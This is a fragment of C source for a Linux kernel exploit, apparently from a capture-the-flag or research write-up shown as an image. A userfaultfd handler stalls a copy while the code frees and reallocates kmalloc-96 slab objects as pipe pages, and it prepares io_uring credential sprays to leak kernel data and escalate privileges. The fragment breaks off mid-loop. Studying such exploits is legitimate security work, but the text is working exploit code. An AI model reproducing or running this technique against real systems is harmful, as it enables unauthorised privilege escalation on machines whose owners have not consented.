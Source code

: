 ```c 
static void *userfault_thread(void *arg)
{
    struct uffd_msg blockers[2];
    struct uffd_msg msg;
    struct uffdio_copy copy;

    uint64_t *scratch = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

    pin_cpu(0);

    for (size_t i = 0; i < 2; i++)
    {
        if (read(userfault_fd, &msg, sizeof(msg)) != sizeof(msg))
        {
            fatal("userfault read");
        }
        else if (msg.event != UFFD_EVENT_PAGEFAULT)
        {
            fatal("unexpected uffd event");
        }

        printf("[+] got userfault block %ld (addr %.16llx)\n", i, msg.arg.pagefault.address);
        blockers[i] = msg;
    }


    struct pipe_pair pipes[16];
    for (size_t i = 0; i < ARRAY_SIZE(pipes); i++)
        pipe(pipes[i].__raw);

    int uring_cred_dumps[2] = {uring_create(0x80, 0x100), uring_create(0x80, 0x100)};

    cc_next(kmalloc96_cc); /* free surrounding objects*/
    cc_next(kmalloc96_cc); /* fill up partial lists */

    /* sleep for rcu*/
    usleep(200000);

    note_del(0);
    note_add("aaa", 2);

    /* Reallocate freed kmalloc-96 slab as a pipe page. */
    uint64_t dummy_buf[0x1000 / 8] = {};
    for (size_t i = 0; i < ARRAY_SIZE(pipes); i++)
        if (write(pipes[i].write, dummy_buf, 0x1000) < 0)
            fatal("write() to pipe failed");

    /* unblock to trigger memcpy(). */
    size_t copied_size = 0;
    ufd_unblock_page_copy((void *)blockers[0].arg.pagefault.address, scratch, &copied_size);

    usleep(200000);
    uint64_t cookie = 0, cookie_idx = 0;
    size_t pipe_idx;
    for (pipe_idx = 0; pipe_idx < ARRAY_SIZE(pipes); pipe_idx++) {
        /* kmalloc-96 is not naturally aligned to PAGESIZE, so we can read this all without worrying
         * about prematurely freeing our page. */
        for (size_t i = 0; i < 42; i++) {
            uint64_t chunk[0x0c];

            if (read(pipes[pipe_idx].read, &chunk, 96) <= 0)
```
